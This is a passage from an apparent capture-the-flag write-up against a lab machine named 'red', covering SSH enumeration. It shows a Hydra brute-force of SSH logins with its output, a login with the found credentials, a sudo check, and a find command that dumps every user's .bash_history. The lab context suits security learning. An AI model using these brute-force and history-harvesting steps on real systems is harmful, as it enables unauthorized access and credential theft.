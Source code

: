 ## SSH Enumeration:

I tried to bruteforce ssh credentials with Hydra using the users_list.

```r
m1m3@kali:~$ hydra -L user_list.txt -P user_list.txt 192.168.1.8 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 961 login tries (l:31/p:31), ~61 tries per task
[DATA] attacking ssh://192.168.1.8:22/
[22][ssh] host: 192.168.1.8   login: SHayslett   password: SHayslett
[STATUS] 259.00 tries/min, 259 tries in 00:01h, 707 to do in 00:03h, 16 active
```

I was able to ssh into the machine using SHayslett's credentials.

```r
m1m3@kali:~$ ssh SHayslett@192.168.1.8

The authenticity of host '192.168.1.8 (192.168.1.8)' cant be established.
ECDSA key fingerprint is SHA256:WuY26BwbaoIOawwEIZRaZGve4JZFaRo7iSvLNoCwyfA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.8' (ECDSA) to the list of known hosts.
-----------------------------------------------------------------
~          Barry, dont forget to put a message here           ~
-----------------------------------------------------------------
SHayslett@192.168.1.8's password: 
Welcome back!


SHayslett@red:~$ id
uid=1005(SHayslett) gid=1005(SHayslett) groups=1005(SHayslett)
SHayslett@red:~$ 
```

Then I checked if this user could execute any command as root but did not find anything.

```r
SHayslett@red:~$ sudo -l

[sudo] password for SHayslett:
Sorry, user SHayslett may not run sudo on red.
```
## Root Shell:

Next I checked the bash_history of all the users.

```r
SHayslett@red:/home$ find -name ".bash_history" -exec cat {} \;

exit
exit
free
exit
exit
exit
exit
exit
exit
exit
exit
```